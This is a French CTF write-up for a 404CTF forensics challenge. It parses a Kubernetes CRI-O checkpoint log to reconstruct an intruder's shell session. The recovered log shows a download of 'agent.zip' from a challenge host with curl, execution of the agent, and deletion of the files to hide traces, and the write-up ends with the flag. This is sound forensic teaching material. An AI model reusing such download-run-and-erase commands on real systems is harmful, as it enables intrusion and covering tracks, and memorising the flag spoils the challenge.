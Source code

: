 ```yaml
---
layout: default
type: writeup
title: Les Mystères du cluster de la Comtesse de Ségur [1/2]
category: Analyse forensique
point: 348
files: ['checkpoint-bash_default-bash-2023-05-06T090421Z.zip']
---
```


{% raw %}
> **title:** Les Mystères du cluster de la Comtesse de Ségur [1/2]
>
> **category:** Analyse forensique
>
> **difficulty:** Moyen
>
> **point:** 348
>
> **author:** Typhlos#9037
>
> **description:**
> Vous rencontrez la Comtesse de Ségur au Procope.  La Comtesse de Ségur a créé une entreprise de vente de livres en ligne en s'aidant du succès de ses livres pour enfants et l'a déployé sur un cluster Kubernetes.
> 
> Celle-ci vous explique avoir été victime d'une demande de rançon. En effet, quelqu'un lui a volé ses livres pas encore publiés et menace de les publier sur Internet si elle ne lui paye la rançon demandée.
> 
> La Comtesse vous demande d'enquêter sur la manière dont le maître chanteur a pu voler ses livres et vous donne pour cela les informations à sa disposition.
> 
> ***
> 
> Votre mission consiste à exploiter le fichier fourni pour y retrouver les traces du maître chanteur.
> 
> ***
> 
> La 2e partie est en rétro-ingénierie.

## Solution

Le fichier nommé **`io.kubernetes.cri-o.LogPath`** est intéressant mais il faut le parser.

En python cela donne :

```python
data = open('checkpoint-bash_default-bash-2023-05-06T090421Z/io.kubernetes.cri-o.LogPath').readlines()
lines = []
for line in data:
	if line.startswith('2023-05-12'):
		lines.append(line)
	else:
		lines[-1] += line

lines = [line.split('stdout ')[1].split(' ', 1) for line in lines]
for line in lines:
	print(line[1][:-1], end='')
```

```
(Reading database ... 55%
(Reading database ... 60%
(Reading database ... 65%(Reading database ... 70%(Reading database ... 75%(Reading database ... 80%(Reading database ... 85%(Reading database ... 90%(Reading database ... 95%(Reading database ... 100%
(Reading database ... 7138 files and directories currently installed.)Preparing to unpack .../xxd_2%3a8.2.2434-3+deb11u1_amd64.deb ...7Progress: [  0%] [.................................................................................................................................] 87Progress: [  5%] [######...........................................................................................................................] 8Unpacking xxd (2:8.2.2434-3+deb11u1) ...7Progress: [ 10%] [############.....................................................................................................................] 8Selecting previously unselected package vim-common.Preparing to unpack .../vim-common_2%3a8.2.2434-3+deb11u1_all.deb ...7Progress: [ 14%] [##################...............................................................................................................] 8Unpacking vim-common (2:8.2.2434-3+deb11u1) ...7Progress: [ 19%] [########################.........................................................................................................] 8Selecting previously unselected package libgpm2:amd64.Preparing to unpack .../libgpm2_1.20.7-8_amd64.deb ...7Progress: [ 24%] [##############################...................................................................................................] 8Unpacking libgpm2:amd64 (1.20.7-8) ...7Progress: [ 29%] [####################################.............................................................................................] 8Selecting previously unselected package vim-runtime.Preparing to unpack .../vim-runtime_2%3a8.2.2434-3+deb11u1_all.deb ...7Progress: [ 33%] [##########################################.......................................................................................] 8Adding 'diversion of /usr/share/vim/vim82/doc/help.txt to /usr/share/vim/vim82/doc/help.txt.vim-tiny by vim-runtime'Adding 'diversion of /usr/share/vim/vim82/doc/tags to /usr/share/vim/vim82/doc/tags.vim-tiny by vim-runtime'Unpacking vim-runtime (2:8.2.2434-3+deb11u1) ...7Progress: [ 38%] [#################################################................................................................................] 8Selecting previously unselected package vim.Preparing to unpack .../vim_2%3a8.2.2434-3+deb11u1_amd64.deb ...7Progress: [ 43%] [#######################################################..........................................................................] 8Unpacking vim (2:8.2.2434-3+deb11u1) ...7Progress: [ 48%] [#############################################################....................................................................] 8Setting up libgpm2:amd64 (1.20.7-8) ...7Progress: [ 52%] [###################################################################..............................................................] 87Progress: [ 57%] [#########################################################################........................................................] 8Setting up xxd (2:8.2.2434-3+deb11u1) ...7Progress: [ 62%] [###############################################################################..................................................] 87Progress: [ 67%] [#####################################################################################............................................] 8Setting up vim-common (2:8.2.2434-3+deb11u1) ...7Progress: [ 71%] [############################################################################################.....................................] 87Progress: [ 76%] [##################################################################################################...............................] 8Setting up vim-runtime (2:8.2.2434-3+deb11u1) ...7Progress: [ 81%] [########################################################################################################.........................] 87Progress: [ 86%] [##############################################################################################################...................] 8Setting up vim (2:8.2.2434-3+deb11u1) ...7Progress: [ 90%] [####################################################################################################################.............] 8update-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vim (vim) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vimdiff (vimdiff) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/rvim (rvim) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/rview (rview) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/vi (vi) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/view (view) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/ex (ex) in auto modeupdate-alternatives: using /usr/bin/vim.basic to provide /usr/bin/editor (editor) in auto mode7Progress: [ 95%] [##########################################################################################################################.......] 8Processing triggers for libc-bin (2.31-13+deb11u6) ...78root@bash:/# curl agent.challenges.404ctf.fr -o agent.zip  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100 1544k  100 1544k    0     0   251M      0 --:--:-- --:--:-- --:--:--  251Mroot@bash:/# mv out.txt /rroot/ run/  root@bash:/# mv out.txt /root/root@bash:/# mv agent.zip /root/root@bash:/# cd /root/root@bash:~# lsagent.zip  out.txtroot@bash:~# unzip agent.zip Archive:  agent.zip  inflating: agent                     inflating: flag.txt                root@bash:~# export HONEYPOT=trueroot@bash:~# ./agent&[1] 9317root@bash:~# rm agent agent.zip flag.txt root@bash:~# 
root@bash:~# kill -9 9317root@bash:~#
```

Dans les dernières lignes, on peut voir : 

**`curl agent.challenges.404ctf.fr -o agent.zip`**

Si l'on télécharge le fichier, à l'intérieur on trouvera **`flag.txt`**

<br>

<span class="flag">FLAG : 404CTF{K8S_checkpoints_utile_pour_le_forensic}</span>

{% endraw %}